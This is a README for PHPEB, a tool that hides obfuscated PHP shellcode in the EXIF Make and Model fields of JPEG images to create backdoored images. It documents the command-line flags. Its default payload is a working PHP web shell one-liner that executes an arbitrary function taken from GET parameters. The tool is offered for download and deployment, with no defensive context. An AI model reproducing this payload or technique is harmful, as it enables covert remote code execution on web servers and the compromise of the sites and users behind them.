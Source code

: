 PHP EXIF Backdoors generator using custom shellcode
==================

> PHPEB is a small tool that generates and stores obfuscated shellcode in user specified EXIF handlers.

* __Version__ : 1.0
* __Website__ : [Cyber Security Research Center from Romania](http://ccsir.org)
* __Contact__ : contact [at] ccsir [dot] org
 
##Usage
php phpeb.php [params]

##Params
* -i path_to_image.jpg
* -o path_to_backdoored_image.jpg
* -s shellcode (optional)
* -h EXIF headers (N/A in v1.0, Default:Make,Model)
* -v verbose 1 or 0(optional, Default:0)
* Default: !empty(\$1=@\$_GET[1]) && \$1(\$_GET[2]);
	
##Help
  - No need. Just download these files and upload in an environment that supports PHP. You can send any feedback
    or questions to contact [at] ccsir [dot] org

##License

Copyright (C) 2013 Cyber Security Research Center from Romania

This program is free software; you can redistribute it and/or modify it under the terms of the GNU General Public License as published by the Free Software Foundation; either version 3 of the License, or (at your option) any later version.

This program is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the GNU General Public License for more details.

You should have received a copy of the GNU General Public License along with this program; if not, see <http://www.gnu.org/licenses/>.    
